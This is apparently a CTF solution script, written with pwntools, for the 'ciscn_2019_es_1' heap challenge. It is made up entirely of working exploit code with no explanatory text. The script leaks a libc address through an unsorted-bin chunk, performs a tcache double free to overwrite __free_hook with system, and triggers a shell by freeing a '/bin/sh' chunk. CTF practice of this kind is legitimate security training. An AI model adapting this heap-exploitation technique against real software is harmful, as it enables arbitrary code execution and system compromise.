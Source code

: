 ```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

# io = process('./ciscn_2019_es_1')
io = remote('node4.buuoj.cn', 28589)

sla = lambda x, y: io.sendlineafter(x, y)

def add(size, name, phone):
	sla(b'choice:', b'1')
	sla(b'Please input the size of compary\'s name\n', str(size).encode())
	sla(b'please input name:\n', name)
	sla(b'please input compary call:\n', phone)

def delete(idx):
	sla(b'choice:', b'3')
	sla(b'Please input the index:\n', str(idx).encode())
	
def show(idx):
	sla(b'choice:', b'2')
	sla(b'Please input the index:\n', str(idx).encode())

add(0x440, b'a', b'a')
add(0x440, b'a', b'a')
add(0x50, b'/bin/sh\x00', b'a')
delete(0)
show(0)
io.recvuntil(b'name:\n')
main_arena = u64(io.recv(6) + b'\x00\x00') - 96
__malloc_hook = main_arena - 0x10
log.info('__malloc_hook: ' + hex(__malloc_hook))
libc = LibcSearcher('__malloc_hook', __malloc_hook)
base = __malloc_hook - libc.dump('__malloc_hook')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
log.info('libc base: ' + hex(base))
log.info('system: ' + hex(system))
__free_hook = base + libc.dump('__free_hook')

add(0x30, b'b', b'b')
add(0x30, b'b', b'b')
delete(3)
delete(3)

add(0x30, p64(__free_hook), b'b')
add(0x30, b'b', b'b')
add(0x30, p64(system), b'b')
delete(2)
io.interactive()
```
